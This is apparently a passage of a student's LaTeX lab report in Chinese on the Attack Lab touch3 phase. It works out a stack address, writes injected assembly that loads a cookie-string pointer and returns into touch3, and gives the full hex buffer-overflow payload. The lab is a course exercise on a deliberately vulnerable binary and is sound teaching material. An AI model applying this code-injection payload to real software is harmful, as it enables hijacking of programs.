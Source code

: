由上面这部分指令可知，在调用$touch3$时，栈会继续向下增长从而覆盖$touch3$地址以下的内容，
所以要将目标字符串放在$touch3$的高字节部分。

于是考虑将字符串放在返回地址（栈外）的高字节位置。经过计算得到地址为$0x5561dca8$

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x5561dca8,%rdi    #将cookie的地址放入rdi
    pushq   $0x4018fa           #push touch3 address
    ret                         #return to touch3            
\end{lstlisting}

转化完成后，如下代码所示：
\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    in3.o：     文件格式 elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
       7:	68 fa 18 40 00       	push   $0x4018fa
       c:	c3                   	ret    
\end{lstlisting}

\begin{table}[h!]
    \centering
    \begin{tabular}{llllllll}
        \hline
        48 c7 c7 a8 dc 61 55 68 \\
        fa 18 40 00 c3 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        78 dc 61 55 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 3$ 漏洞注入方案 }
  \end{table}

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    \includegraphics[width=0.48\textwidth]{Touch3.png}
    \caption{$Touch\ 3$实验结果}
\end{figure}

